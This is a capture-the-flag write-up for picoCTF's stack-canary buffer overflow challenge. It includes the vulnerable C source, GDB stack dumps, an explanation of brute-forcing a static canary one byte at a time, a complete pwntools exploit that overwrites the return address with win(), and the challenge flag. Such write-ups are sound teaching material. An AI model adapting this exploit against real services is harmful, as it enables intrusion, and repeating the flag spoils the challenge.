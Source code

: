 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/q8bFFdo.png
points: 300
solves: 1254
tags: pwn pwn/buffer-overflow pwn/stack-canary pwn/ret2win pwn/byte-by-byte
date: 1337-01-01
comments: false
---
```


Do you think you can bypass the protection and get the flag?  
It looks like Dr. Oswal added a stack canary to this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo3-vuln) to protect against buffer overflows. You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo3-vuln.c) here. And connect with it using:  
`nc saturn.picoctf.net [port #]`  

---

We're given an ELF binary and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    fflush(stdout);
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

Firstly, it's immediately clear this is a classic return-to-win challenge that requires us to override the return register with the address of the win function, as evidenced by the `win()` function that is never called in the normal program execution.  

Secondly, it seems that it's added a stack canary to the stack. For those who don't know, a stack canary is a random value set on a stack whose value is checked to ensure that a buffer overflow did not occur. Without knowledge of the canary, an attacker's buffer overflow would change the stack canary and trigger a `Stack Smashing Detected` warning.  

However, while stack canaries are pretty intimidating, this one isn't as intimidating. Why? Because stack canaries are typically randomly generated every time a program is executed. This one, however, is not randomly generated. Instead, it is read from `canary.txt` every single time, meaning that it stays the same between program executions.  

Initially, I thought I could brute force the stack canary. However, a quick calculation shows that it isn't possible.  
A stack canary of 4 bytes will have `256^4` possible values, i.e. `2^32`, which is equivalent to over a billion possible values -- not very brute forceable.  

Fortunately, there's a clever trick we can use to reduce the number of iterations we have to make from `2^32` to just `4 * 2^8`.  
To demonstrate this, I'll show with an example instead.  

Through dynamic analysis, we can first locate the offset of both the input and the canary on the stack.  

First, I created a `flag.txt` file filled with a fake flag and a `canary.txt` file filled with `1111` for local testing purposes.  
Then, I entered into GDB for `vuln` and set a breakpoint at `*vuln+0x192`, i.e. right after our input.  
For my input, I entered `4` for the number of bytes to input and `aaaa` for my input, just so I could find where my string was in the stack.  
With `x/100x $esp`, I quickly found both the location of both the input and the canary:  

<pre>
0xffce6cf0:     0x0804c000      0x0804c000      <b>0x61616161</b>      0x00000000
0xffce6d00:     0xffce6d48      0xf7f9eff4      0x00000001      0x0804c000
0xffce6d10:     0xffce6e34      0xf7fc2b80      0xffce6d48      0x08049480
0xffce6d20:     0x093151a0      0x00000001      0x00000004      0x093151a0
0xffce6d30:     0x00002710      0x0804c000      <b>0x31313131</b>      0x00000001
</pre>

We can clearly observe that there is an offset of 0x40 bytes between them. Therefore, to overwrite the canary, we simply need add an offset of 0x40 bytes before our canary-guess input.  

But, as we discussed before, it would be extremely inefficient to brute force the canary as is.  
Fortunately, we don't actually need to brute force all 4 bytes of the canary at the same time.  

Let's say I change my input to 0x41 `a`'s. Then, the stack will look like this:  

<pre>
0xfff4feb0:     0x0804c000      0x0804c000      0x61616161      0x61616161
0xfff4fec0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fed0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fee0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fef0:     0x61616161      0x61616161      0x313131<b>61</b>      0x00000002
</pre>

Take a look at the bytes storing the canary -- only the last byte (technically the first byte since little endianness) was changed!  

So, what if we test each byte of the canary at a time, starting with the first byte. Changing only the first byte, we can just continuously test if the program outputs `Stack Smashing Detected` or not. Once it doesn't we know that we have found the correct byte. The reason for this is, since we're only changing the first byte, everything else remains the same, and therefore the stack canary will still be correct as long as the first byte is correct!  

Once we find the first byte, we can move onto the second byte, simply remembering to append the found first byte to the end of the payload to keep that byte of the stack canary right. We can do this repeatedly to find all 4 bytes of the stack canary.  

This program vulnerability demonstrates the weakness of static stack canaries. In fact, our simple solution here is enough to brute force a static/unchanging stack canary of any reasonable length of bytes!  

That's why current stack canaries are randomized for each program execution to ensure that attackers cannot just brute force it like this.  

For this problem though, now that we know how to brute force the stack canary, all that's left to do is locate the `eip` (return address pointer) on the stack and overwrite it with the `win()` function's address so that, when the `vuln()` function returns, it will return to the `win()` function instead and give us the flag!  

A simple GDB command of `i f` gives us where the value of `eip` is stored. A simple subtraction of the canary address from this address provides us the necessary offset to provide after the canary to overwrite the `eip`. All that's left now is to write an exploit program with *pwntools* to brute force the canary and return-to-win to get the flag!  

```py
from pwn import *

port = 58360

canary = b''
for i in range(4):
        payload = b'a' * 64 + canary
        for j in range(256):
                send = payload + j.to_bytes(1, 'big')
                conn = remote('saturn.picoctf.net', port)
                conn.recv()
                conn.sendline(str(65 + i).encode()) # num bytes to send
                conn.recv()
                conn.sendline(send) # payload
                result = conn.recv()
                conn.close()
                if b'Smashing' not in result:
                        canary += j.to_bytes(1, 'big')
                        print(canary)
                        break

conn = remote('saturn.picoctf.net', port)
winpayload = b'a' * 64 + canary + b'a' * 0x10 + p32(0x08049336)
print(conn.recv())
conn.sendline(str(len(winpayload)).encode())
print(str(len(winpayload)).encode())
print(winpayload)
print(conn.recv())
conn.sendline(winpayload)
print(conn.recv())
print(conn.recv())
```

The canary turns out to be `BiRd` and the flag turns out to be:  

    picoCTF{Stat1C_c4n4r13s_4R3_b4D_14b7d39c}